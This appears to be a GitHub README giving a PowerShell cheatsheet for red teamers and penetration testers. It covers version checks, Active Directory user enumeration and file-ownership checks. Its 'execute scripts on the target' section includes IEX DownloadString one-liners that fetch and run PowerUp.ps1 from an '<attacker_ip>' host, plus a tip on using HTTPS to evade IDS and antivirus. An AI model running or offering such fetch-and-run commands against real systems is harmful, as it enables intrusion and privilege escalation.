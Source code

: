 # Powershell Cheatsheet - For RT / PT
## Information about this repository
Q: What is this cheatsheet supposed to be?

This is going to be my powershell cheatsheet (probably won't be the best but I hope you can take a few things from here)

Q: Who is this made for?

Made for red teamers / penetration testers / blue teamers ( / sysadmins if you really feel like it)

Q: Which versions of powershell will this be supporting?

From powershell v2 onwards (even though I will be putting things that are not supported in powershell v2).

The obligatory `please do not use this cheatsheet for any illegal or malicious activities.`

## Useful commands
### Enumeration

This will be a place for enumeration commands.

#### Checking powershell version different methods:
##### Registry
```Powershell
(Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine -Name 'PowerShellVersion').PowerShellVersion
```
##### $host Variable
```Powershell
$host.Version
```
##### Get-Host
```Powershell
(Get-Host).Version
```
##### $PSVersionTable Variable
```Powershell
$PSVersionTable.PSVersion
```

### User information
##### Get list of all AD Users
```Powershell
Get-ADUser -filter * | Select -Property SamAccountName
```

##### Get list of groups for every AD user
```Powershell
foreach ($user in (Get-ADUser -Filter * | Select -ExpandProperty SamAccountName)) { Write-Host $user "{"((Get-ADPrincipalGroupMembership $user | Select -Expand Name) -join ', ' ) "}`n" }
```

### Password / Hidden data

This will be a place for finding passwords or hidden data.

### Read / Writable files

This is going to assist you in detecting faulty permissions.
##### Get all directories with ownership
```Powershell
foreach ($file in (Get-ChildItem -Directory -Path "C:\Users" -Recurse -Force -ErrorAction SilentlyContinue)) { Get-Acl $file.FullName | Where-Object -Property Owner -eq ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Select -ExpandProperty Path | Convert-Path}
```
##### Short explanation: We are looping over each directory and file with Get-ChildItem, then extracting the ACLs from the file / directory and checking if the owner is the current user account with `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`, the rest is just for prettifying and expanding.


### Execute powershell scripts on the target
##### Download from share
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('//<attacker_ip>/share/PowerUp.ps1')
```

##### Download from http server 
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>:8090/PowerUp.ps1')
```
##### Note: For encrypted communication and bypassing any IDS or antiviruses you could use https:// instead. 

### Misc.
#### Error handling 
```Powershell
$ErrorActionPreference = "SilentlyContinue" # / "Stop" / "Inquire" / "Continue" (Default) / "Suspend"
```
#### Test if 32-bit system or 64-bit
```Powershell
[Environment]::Is64BitOperatingSystem
```

## Sources
- https://github.com/specterops/at-ps (Amazing course, very recommended)
- The interwebz
- My personal journey
- https://adamtheautomator.com/check-powershell-version/
- https://www.gngrninja.com/script-ninja/2016/6/5/powershell-getting-started-part-11-error-handling
